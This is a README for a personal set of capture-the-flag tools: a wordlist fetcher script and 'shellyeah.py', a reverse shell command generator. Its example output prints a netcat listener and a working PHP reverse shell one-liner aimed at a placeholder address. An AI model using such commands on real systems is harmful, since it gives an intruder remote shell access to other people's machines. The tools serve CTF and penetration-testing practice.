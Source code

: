 # ctf_tools
CTF tools crafted for my personal needs.

## wl_fetcher.sh
`wl_fetcher.sh` or WL-fetcher (wordlist fetcher), which is a single tool to fetch wordlists from multiple sources into the provided directory.

List of fetched worlists are hard coded. Modify the list to fit your needs. Perhaps this tool will be modified later to support list of repositories as a parameter.

### Usage
```sh
$ mkdir wordlists/
$ chmod +x wl_fetcher.sh
$ ./wl_fetcher.sh -d wordlists/  # Fetches the wordlists
$ ./wl_fetcher.sh -u wordlists/  # Fetches changes for the wordlists
```

#### Example
```sh
$ ./wl_fetcher.sh -h
__          ___          ______   _       _               
\ \        / / |        |  ____| | |     | |              
 \ \  /\  / /| |  ______| |__ ___| |_ ___| |__   ___ _ __ 
  \ \/  \/ / | | |______|  __/ _ \ __/ __| '_ \ / _ \ '__|
   \  /\  /  | |____    | | |  __/ || (__| | | |  __/ |   
    \/  \/   |______|   |_|  \___|\__\___|_| |_|\___|_|   

Usage: ./wl_fetcher.sh [OPTION] [DIRECTORY]
Fetches wordlists into the provided directory.

Options:
-h, --help             Display this help message
-d, --directory        Specify the directory to fetch wordlists into
-l, --list             Lists repos from which wordlists are fetched
-u, --update           Fetches updates for wordlists (if available)
```

## shellyeah.py
`shellyeah.py` is a CLI tool for generating reverse shell commands.
### Usage:
```sh
$ python3 shellyeah.py -a 127.0.0.1 -p 1234 -s "php exec"
$ python3 shellyeah.py  # List parameters and available shell commands
```

If you want to simplify things:
```sh
$ sudo ln -s [<Path to this shellyeah.py>]/shellyeah.py /usr/local/bin/shellyeah
$ chmod +x shellyeah
$ shellyeah -h
 _______________________________________
< Shell Yeah! - Reverse Shell Generator >
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\

usage: rev_shell_gen.py [-h] -a ADDRESS -p PORT -s {busybox nc,bash -i,php cmd,php exec,powershell}
rev_shell_gen.py: error: the following arguments are required: -a/--address, -p/--port, -s/--shell
```

#### Examples
```sh
$ python3 shellyeah.py -a 1.2.3.4 -p 1234 -s "php exec"

 _______________________________________
< Shell Yeah! - Reverse Shell Generator >
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\

Listener command:
nc -lvnp 1234

Reverse shell command:
php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
